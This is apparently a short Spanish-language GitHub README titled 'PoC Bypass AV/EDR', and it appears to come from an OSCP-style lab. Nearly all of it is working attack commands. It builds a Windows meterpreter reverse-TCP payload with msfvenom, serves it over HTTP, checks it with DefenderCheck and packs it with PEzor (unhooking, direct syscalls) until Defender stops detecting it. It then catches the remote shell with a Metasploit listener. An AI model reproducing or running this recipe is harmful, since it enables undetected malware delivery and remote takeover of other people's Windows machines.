 ## PoC Bypass AV/EDR

1º **Crear payload con MSFVENOM:**

        - msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.xxx.xxx LPORT=3333 -e x86/shikata_ga_nai>

2º **Lo pasamos al windows con un servidor http.**

        - python3 -m http.server 8080
        - Nos conecatamos a nuestra ip y descargamos el .exe
        
3º **Lo pasamos por el DefenderCheckMaster** (https://github.com/matterpreter/DefenderCheck)

        - cd .\Desktop\DefenderCheck-master\DefenderCheck\DefenderCheck\bin\Debug\
        - .\DefenderCheck.exe C:\Users\OSCP\Downloads\PoC.exe
        -  Se detectará.

4º **Pasamos el .exe por PEzor** (https://github.com/phra/PEzor)

        - PEzor -sgn -unhook -syscalls PoC.exe
        - Lo volvemos a enviar al Windows.

5º **Lo volvemos a pasar por el DefenderCheckMaster**

        - .\DefenderCheck.exe C:\Users\OSCP\Downloads\PoC.exe.packed.exe
        - NO SE DETECTA

6º **Tendremos a la escucha un listener de mestasploit en nuestra Kali.**

        - msfconsole -q
        - use exploit/multi/handler
        - set lhost 192.168.xxx.xxx
        - set lport 3333
        - run

7º **Ejecutamos el .exe**

        - Conseguiremos una shell de meterpreter en nuestra kali.


